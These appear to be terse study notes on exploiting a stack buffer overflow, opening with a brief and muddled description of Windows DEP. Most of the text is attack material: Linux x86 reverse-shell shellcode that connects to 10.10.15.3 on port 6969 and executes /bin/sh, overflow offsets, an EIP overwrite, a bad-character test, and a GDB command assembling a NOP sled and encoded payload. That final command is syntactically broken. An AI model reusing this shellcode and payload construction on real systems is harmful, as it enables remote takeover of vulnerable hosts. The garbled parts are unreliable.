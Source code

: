
## Data Execution Prevention (DEP)

`DEP` is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.



EIP: 0x66666666
786
2060 to overflow
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd
\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x0a\x0f
\x03\x68\x02\x00\x1b\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3
\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f
\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80

identify bad chars:
buffer = "\x55" * (2064 - 256 - 4)
CHARS=...
EIP = "\x66" * 4

`run $(python -c 'print("\x55" * (2064 - 100 - 95 - 4) + "\x90" * 100 + ""\xd9\xe8\xd9\x74\x24\xf4\xbf\xd5\xc2\xbf\x35\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x7b\x13\x03\xae\xd1\x5d\xc0\x61\x0d\x56\xc8\xd2\xf2\xca\x65\xd6\x7d\x0d\xc9\xb0\xb0\x4e\xb9\x65\xfb\x70\x73\x15\xb2\xf7\x72\x7d\x4f\x02\x8a\x7e\x27\x10\x94\x9b\x8e\x9d\x75\x2b\x96\xcd\x24\x18\xe4\xed\x4f\x7f\xc7\x72\x1d\x17\xb6\x5d\xd1\x8f\x2e\x8d\x3a\x2d\xc6\x58\xa7\xe3\x4b\xd2\xc9\xb3\x67\x29\x89" + "\x66" * 4)')'*)'`